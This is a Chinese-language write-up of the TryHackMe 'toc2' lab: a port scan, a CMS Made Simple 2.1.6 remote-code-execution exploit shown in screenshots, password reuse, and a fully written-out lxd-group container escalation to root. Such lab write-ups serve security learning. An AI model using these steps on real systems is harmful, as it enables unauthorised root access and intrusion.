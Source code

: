 ```yaml
---
sidebar_position: 148
tags: [Easy, Linux, 命令注入, 用户组]
title: "toc2"
description: "toc2"
sidebar_label: "toc2"
slug: /tryhackme/148
---
```


# toc2

## 端口扫描

```bash
root@ip-10-10-249-90:~/toc2# nmap -sTCV -p 22,80 --min-rate 1000 10.10.159.121
Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-05 15:44 BST
Nmap scan report for ip-10-10-159-121.eu-west-1.compute.internal (10.10.159.121)
Host is up (0.00014s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 84:4e:b1:49:31:22:94:84:83:97:91:72:cb:23:33:36 (RSA)
|   256 cc:32:19:3f:f5:b9:a4:d5:ac:32:0f:6e:f0:83:35:71 (ECDSA)
|_  256 bd:d8:00:be:49:b5:15:af:bf:d5:85:f7:3a:ab:d6:48 (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/cmsms/cmsms-2.1.6-install.php
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site Maintenance
MAC Address: 02:54:9F:AF:93:27 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.21 seconds
root@ip-10-10-249-90:~/toc2#
```

## 80

从扫描结果来看 有一个 /cmsms/cmsms-2.1.6-install.php 页面, 然后我直接搜索发现其存在一个 RCE 漏洞 [CMS Made Simple 2.1.6 - Remote Code Execution](https://www.exploit-db.com/exploits/44192)

从 EXP 来看我们需要获取一些东西:

- 数据库的账号和密码 : 如果你自己查看首页内容你会发现其中提到了一个账号
- 数据库的库名 : 在 robots.txt 中提到要使用 cmsmsdb 数据库

现在我们只需要按照 EXP 的指示进行操作即可

![image-20240709182452119](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-182453.png)

操作完成后访问我们的文件我们就可以执行命令了

![image-20240709182459017](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-182500.png)

## 后渗透

### www-data

![image-20240709182519434](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-182520.png)

### www-data —> frank

再查看 frank 家目录时我发现一个文件, 其告诉所有机器默认密码都是 password , 所以我在此尝试密码重用

![image-20240709182527088](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-182528.png)

### frank —> root

在上面的输出中我们可以看到用户 frank 是 lxd 组用户, 所以我们可以借助 lxc 进行特权, 这里会麻烦一点你需要创建存储池

```bash
(remote) frank@toc:/tmp$ lxc storage create my-pool dir
Storage pool my-pool created
(remote) frank@toc:/tmp$ lxc storage list
+---------+-------------+--------+------------------------------------+---------+
|  NAME   | DESCRIPTION | DRIVER |               SOURCE               | USED BY |
+---------+-------------+--------+------------------------------------+---------+
| my-pool |             | dir    | /var/lib/lxd/storage-pools/my-pool | 0       |
+---------+-------------+--------+------------------------------------+---------+
(remote) frank@toc:/tmp$ lxc init myimage ignite -c security.privileged=true -s my-pool
Creating ignite

The container you are starting doesn't have any network attached to it.
  To create a new network, use: lxc network create
  To attach a network to a container, use: lxc network attach

(remote) frank@toc:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt recursive=true
Device mydevice added to ignite
(remote) frank@toc:/tmp$ lxc start ignite
(remote) frank@toc:/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
```